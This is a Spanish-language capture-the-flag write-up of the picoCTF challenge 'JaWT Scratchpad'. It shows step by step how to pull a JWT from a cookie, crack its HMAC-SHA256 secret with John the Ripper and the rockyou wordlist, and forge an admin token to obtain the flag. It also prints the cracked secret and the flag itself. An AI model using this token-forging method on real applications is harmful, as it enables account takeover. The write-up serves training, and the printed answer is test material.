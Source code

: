 ## JaWT Scratchpad 

### Objetivos 
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

### Pistas
1. What is that cookie?
2. Have you heard of JWT?

### Solución 

- hacemos login con nuestro nombre
- extraemos el token generado de la cookie, con el complemento del navegador
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2F1bCJ9.s2yNYA4r8kHDSdf8Rolh2TSltGEQhDRG2cnkha_EBjY
```

- creamos un archivo y pegamos el token dentro
``` bash
┌──(kali㉿kali)-[~]
└─$ touch mijwt

┌──(kali㉿kali)-[~]
└─$ nano mijwt 

```

ejecutamos el siguiente comando de john en el archivo que contiene el token para obtener la contraseña
``` bash
┌──(kali㉿kali)-[~] 
└─$ john mijwt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:03 DONE (2023-10-03 23:26) 0.3134g/s 2318Kp/s 2318Kc/s 2318KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- En caso de darnos error de Codificación, extraemos el archivo rockyou.txt.gz
``` bash
(kali㉿kali)-[~]
└─$ sudo gzip -d  /usr/share/wordlists/rockyou.txt.gz
```

- obtenemos la contraseña del token: 'ilovepico'

- en https://jwt.io/ pegamos el token.

- en la parte de PAYLOAD:DATA 
	sustituimos el usuario por admin

- en la parte de VERIFY SIGNATURE 
	colocamos la contraseña del token 'ilovepico'

- copiamos el nuevo token y lo pegamos en la cookie.
``` 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

- recargamos la pagina y obtenemos la bandera del nivel

picoCTF{jawt_was_just_what_you_thought_44c752f5}

### Notas adicionales:
- John: john es una herramienta para hackear contraseñas por fuerza bruta.
- rockyou.txt: el archivo rockyou de john contiene una gran cantidad de contraseñas genéricas.

### Referencias:
jwt: https://jwt.io/
json: https://www.json.org/json-es.html
JSON Web Tokens: https://jwt.io/